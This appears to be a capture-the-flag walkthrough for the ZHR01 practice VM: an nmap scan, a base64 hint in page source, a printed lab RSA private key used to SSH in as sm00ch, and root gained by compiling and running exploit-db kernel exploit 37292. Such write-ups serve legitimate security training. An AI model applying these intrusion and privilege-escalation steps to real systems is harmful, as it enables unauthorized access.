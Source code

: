 # ZHR01

> This challenge is extraordinary because it’s not from vulnhub. ZHR01 was part of a course on Udemy, which you can check out here: https://www.udemy.com/kali-linux-tutorial-for-beginners/​
> 
> You can download the challenge from here: https://1drv.ms/u/s!Au8ppV18SdSKbag8clXoBLGdOX0

The result of the nmap scan:

```
┌─[root@kali]─[~]
└──╼ # nmap -A 192.168.43.155
Nmap scan report for ZHR01 (192.168.43.155)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 25:fe:10:ef:eb:5c:7d:ee:69:46:1d:a1:20:4c:31:72 (RSA)
|   256 d1:85:46:de:b7:16:05:bb:6a:10:11:79:65:ca:f4:8e (ECDSA)
|_  256 41:b8:50:96:33:1c:4d:fb:e0:1f:be:7e:ca:6d:29:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to Smooch and Leo's site
MAC Address: 08:00:27:D7:38:53 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelTRACEROUTE
HOP RTT     ADDRESS
1   0.17 ms ZHR01 (192.168.43.155)
```

There was only two services running, so let’s check the web server first. I viewed the source of the "About Smooch" page since the cat likes to hide things.

```html
<html class="gr__192_168_43_155">
 <head>
  <title>Smooch's Site</title>
 </head>
 <body data-gr-c-s-loaded="true">
  <h1 style="text-align: center;">Smooch</h1>
  <p style="text-align: center;">
   <span style="color: #000000;">
    <img src="/images/smooch.jpg" 
    alt="I have hidden something for you ;-)">&nbsp;
   </span>
  </p>
 <p style="text-align: center;">
   This is Smooch, she is Leo's step mother.
   She raised him like her own son. She really loves to hide things.        
    <br>Maybe she was hinding something for you too... ;-)
 </p>
 <p style="text-align: center;">
  <span style="color: #000000;">
   <strong>
    <a style="color: #000000; text-decoration: underline;" 
      href="index.html">&lt; Back</a>
   </strong>
  </span>
 </p>
 <!-- Y2hlY2sgb3V0IHNtb29jaF9zZWNyZXQudHh0 -->
 </body>
   <span class="gr__tooltip">
    <span class="gr__tooltip-content"></span>
    <i class="gr__tooltip-logo"></i>
    <span class="gr__triangle"></span>
   </span>
</html>
```

The comment was a base64 encoded text, which was:

```
echo Y2hlY2sgb3V0IHNtb29jaF9zZWNyZXQudHh0 | base64 -d
check out smooch_secret.txt
```

It was again a base64 encoded text file, which contained a private RSA key:

```
-----BEGIN RSA PRIVATE KEY-----
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
-----END RSA PRIVATE KEY-----
```

## Using the SSH key

I needed to change the permissions of the file.

```
┌─[root@kali]─[~/Downloads]
└──╼ # chmod 600 private_key
```

First, I tried root and smooch as the username, but eventually, I found out the correct username is `sm00ch`, who published the articles on the site.

```
┌─[root@kali]─[~/Downloads]
└──╼ # ssh -i private_key sm00ch@192.168.43.155
Welcome to Ubuntu 14.10 (GNU/Linux 3.16.0-23-generic i686)* Documentation:  https://help.ubuntu.com/System information as of Mon Sep  3 00:23:58 CEST 2018System load:  0.0               Processes:           72
  Usage of /:   58.0% of 1.91GB   Users logged in:     0
  Memory usage: 5%                IP address for eth0: 192.168.43.155
  Swap usage:   0%Graph this data and manage this system at:
    https://landscape.canonical.com/Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflifeNew release '15.04' available.
Run 'do-release-upgrade' to upgrade to it.sm00ch@ZHR01:~$
```

The goal of this challenge is to get root, but for that, I needed to escalate my privileges.

```
sm00ch@ZHR01:~$ whoami
sm00ch
sm00ch@ZHR01:~$ uname -a
Linux ZHR01 3.16.0-23-generic #31-Ubuntu 2014 i686 i686 i686
sm00ch@ZHR01:~$ cat /etc/issue
Ubuntu 14.10 \n \l
```

I quickly found the correct kernel exploit for the job. Here: https://www.exploit-db.com/exploits/37292/

```
sm00ch@ZHR01:/tmp$ gcc 37292.c -o exploit
sm00ch@ZHR01:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root​
```

I got root and with this, I consider the challenge finished.
